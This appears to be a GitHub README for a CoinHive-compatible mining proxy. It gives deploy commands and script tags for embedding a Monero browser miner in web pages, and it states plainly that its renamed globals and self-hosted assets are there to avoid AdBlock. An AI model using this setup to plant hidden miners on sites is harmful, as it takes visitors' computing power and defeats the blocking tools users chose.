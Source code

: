 Coin Hive Stratum
=================

Deploy `coin-hive-stratum` proxy **for free** to `now.sh` + `GitHub Pages` and avoid AdBlock.

## Server

Just deploy [this repo](https://deploy.now.sh/?repo=https://github.com/cazala/coin-hive-stratum) to `now.sh`

[![Deploy to now](https://deploy.now.sh/static/button.svg)](https://deploy.now.sh/?repo=https://github.com/cazala/coin-hive-stratum)

This will deploy a proxy instance to your `now.sh` account, and it will give you a url like this: `https://coin-hive-stratum-zmuahmjuur.now.sh`.

Finally, change the name of the instance. To do so, install `now` if you don't have it yet:

```
npm i -g now
```

Login with the same account where you deployed your proxy:

```
now login
```

And rename your proxy like this:

```
now alias coin-hive-stratum-zmuahmjuur.now.sh my-proxy.now.sh
```

Now your proxy is accessible from `wss://my-proxy.now.sh`.

This is **YOUR-SERVER-URL**.

## Assets

First, fork [this repo](https://github.com/cazala/coin-hive-stratum).

![fork](https://user-images.githubusercontent.com/2781777/33270099-a6af10da-d361-11e7-91ec-060d447fd1fb.gif)

Now, change its name to `my-proxy` (Settings > Rename).

<img width="359" alt="rename" src="https://user-images.githubusercontent.com/2781777/33243283-e1407e32-d2c1-11e7-8726-08b6728c0780.png">

This will create a github page under you github's account with all the required static assets.

After that you will be able to access the miner via `https://<YOUR-GITHUB-USERNAME>.github.io/my-proxy/m.js`

This is your **YOUR-CLIENT-URL**.

## Usage

Now instead of using CoinHive's miner:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

You should use your miner like this:

```html
<script src="YOUR-CLIENT-URL?proxy=YOUR-SERVER-URL?pool=HOST:PORT"></script>
```

This is an example of how it should look like:

```html
<script src="https://cazala.github.io/my-proxy/m.js?proxy=wss://my-proxy.now.sh?pool=pool.supportxmr.com:3333"></script>
```

Also, instead of using the `CoinHive` global variable use `CH` (this is to avoid AdBlock), ie:

```html
<script src="https://cazala.github.io/my-proxy/m.js?proxy=wss://my-proxy.now.sh?pool=pool.supportxmr.com:3333"></script>
<script>
  var miner = CH.Anonymous('SITE_KEY');
  miner.start();
</script>
```
